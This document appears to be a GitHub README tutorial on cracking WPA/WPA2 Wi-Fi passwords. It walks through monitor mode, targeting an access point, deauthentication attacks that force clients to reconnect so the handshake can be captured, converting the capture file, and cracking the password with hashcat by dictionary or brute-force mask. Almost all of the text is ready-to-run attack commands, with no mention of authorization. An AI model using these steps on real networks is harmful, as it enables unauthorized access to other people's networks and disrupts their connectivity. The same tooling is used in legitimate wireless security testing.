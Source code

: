 ## Crack WIFI Password (WPA/WPA2) using Aircrack-ng

Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- **GPU** for `hashcat`

### Lets capture the flag (I mean \*mr.wifibrute):

Open terminal.....

#### Terminal-1:

1. Detect your wireless network interface :

   > ifconfig

   ![Network interface](images/interfaces.png)

   **Note:** Here <i>wlp3s0</i> is my wireless interface.

   **if coudn't find command then try :**

   > /sbin/ifconfig

2. Start monitor mode :

   > sudo airmon-ng start wlp3s0

   ![Monitor mode](images/monitor_mode.png)

3. capture traffic :

   > sudo airodump-ng wlp3s0mon

   ![Monitoring](images/monitoring.png)

#### Terminal-2:

4. select target and focus on one AP on channel:

   > sudo airodump-ng --bssid xx.xx.xx.xx.xx.xx -c y --write filename wlp3s0mon

   - **xx.xx.xx.xx.xx.xx** defines : **AP BSSID** -> 00.11.22.33.44.55 (suppose)
   - **y** defines : **AP channel** -> 10 (suppose)
   - **filename** is the file name where the **handshake** will captute and make some other stuffs .

   ![Target Monitoring](images/target.png)

#### Terminal-3:

5. Send traffic to the channel :

   > sudo aireplay-ng --deauth y -a xx.xx.xx.xx.xx.xx wlp3s0mon

   - ammoun of **traffic**-> y

   ![Deauth](images/deauth.png)

6. Capture handshake : it will be shown in the monitor if captured ! at **Terminal-2**.

   ![Captured handshake](images/handshake_captured.png)

7. Now you got the handshake **(terminal-2)**
8. Stop the process of terminal-2 : `ctrl+c`

### Now Lets crack the password !

**There will be a WPAcrack-01.cap file in your home directory**

1. convert cap file into hccapx file : https://www.onlinehashcrack.com/tools-cap-to-hccapx-converter.php

or

1.  use **mr.wifibrute.c** file to convert the **cap** file to **hccapx** file

    > gcc mr.wifibrute.c -o mr.wifibrute && ./mr.wifibrute file.cap file.hccapx

    ![cap to hcappx](images/capToHccapx.png)

    **Note :** cap to pkid (in case of pkid) :

    > hcxpcaptool -z pmkidhash suva-01.cap

1.  Crack password using **hashcat** :

    - **Install hashcat :** `sudo apt install hashcat`
    - check is everything oky ? : `hashcat -I` **to use hashcat you need gpu**
    - crack password :

      > hashcat -m 2500 wpacrack.hccapx dictionary.txt

      - dictionary.txt -> word list (suppose)
      - wpacrack.hccapx is the handshake file

      ![Hashcat running](images/hashcat.png)

      ![Hashcat Status](images/hashcat_status.png)

- Bruteforce :
  Example (bruteforce for length 8 password using 0-9 digits) :

  > hashcat -a 3 -m 16800 pmkidhash ?d?d?d?d?d?d?d?d

  Then you will get the password (if you are lucky enough).
  ![password](images/pass.png)
  here password : secret

- Others :
  All ready cracked pass check :

  > hashcat -m 2500 test.mr.wifibrute rockyou.txt --show
